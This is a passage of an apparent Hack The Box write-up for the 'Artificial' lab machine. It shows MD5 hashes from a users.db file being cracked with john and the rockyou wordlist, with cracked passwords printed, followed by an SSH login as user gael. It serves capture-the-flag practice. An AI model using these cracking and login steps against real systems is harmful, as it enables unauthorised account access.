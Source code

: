 ### Hash Cracking

Cracking hashes from users.db, we get credential for user geal 

```
──(kali㉿kali)-[~/HTB-machine/artificial/writeup]
└─$ john hash --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt 

Using default input encoding: UTF-8
Loaded 6 password hashes with no different salts (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
hello            (?)     
mattp005numbertwo (?)     
marwinnarak043414036 (?)     
3g 0:00:00:01 DONE (2025-06-23 07:53) 1.764g/s 8437Kp/s 8437Kc/s 32059KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

Now  we go to /home we have one user

```
app@artificial:~/app$ cd /home
cd /home
app@artificial:/home$ ls
ls
app  gael
app@artificial:/home$ 
```

## SSH Access

Taking ssh session for user geal

```
ssh gael@artificial.htb
```

```
┌──(kali㉿kali)-[~/HTB-machine/artificial/writeup]
└─$ ssh gael@artificial.htb  
gael@artificial.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon 23 Jun 2025 11:56:04 AM UTC

  System load:           0.07
  Usage of /:            58.8% of 7.53GB
  Memory usage:          30%
  Swap usage:            0%
  Processes:             245
  Users logged in:       0
  IPv4 address for eth0: 10.129.148.48
  IPv6 address for eth0: dead:beef::250:56ff:fe94:1a29


Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status
```